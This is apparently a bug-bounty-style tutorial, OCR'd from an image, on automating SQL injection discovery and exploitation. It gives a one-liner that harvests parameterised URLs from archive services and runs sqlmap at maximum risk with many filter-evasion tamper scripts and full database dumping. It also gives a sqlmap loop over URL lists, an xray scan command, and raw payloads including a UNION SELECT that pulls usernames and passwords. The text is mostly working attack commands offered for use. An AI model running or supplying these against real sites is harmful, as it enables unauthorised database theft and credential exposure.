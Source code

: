 
```bash
echo "target.com" | xargs -I {} sh -c 'urlfinder -d {} -all && gau {} --subs --providers wayback,commoncrawl,otx,urlscan' | uniq -u | sed 's/:[0-9]\+//' | grep -aiE '\.(php|asp|aspx|jsp|cfm)'| grep -a "[=&]" | httpx | uniq -u>sqli.target.com.txt;sqlmap -m sqli.target.com.txt --risk=3 --level=5 --random-agent --technique=T --batch --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,percentage,randomcase,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes --dbs --dump

#use this  oneliner to find only time based sqli. You need to install urlfinder,gau,sqlmap tools on your system.
```

_Xray crawls websites and flags potential SQLi vectors without sending malicious payloads.

```css
xray webscan --url-file final_subdomains.txt --plugins sqldet
```

**What it finds:**

_Error-based, Boolean-based, and Time-based SQLi.

SQLmap is powerful but slow if used manually. **Automate it:**

```bash
for url in $(cat urls_with_params.txt); do sqlmap -u $url --batch --crawl=1 --level=3; done

# You may want to add ghauri with it.
```

**Key flags:**

- `--batch` (non-interactive)
- `--crawl=1` (auto-discovers new links)

_**Real-world success:** A hacker found 6 SQLi bugs in a single day using this method.?_

**You can find SQli in URL Parameters too:**

```
/products?search=shoes
```

A tiny change in the URL made all the difference:

```sql
/products?search=' OR 1=1--

#payload

' UNION SELECT username, password FROM users--
```

— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — 
## How to Run SQLMAP from Anywhere in Windows CMD (Complete Setup Guide)
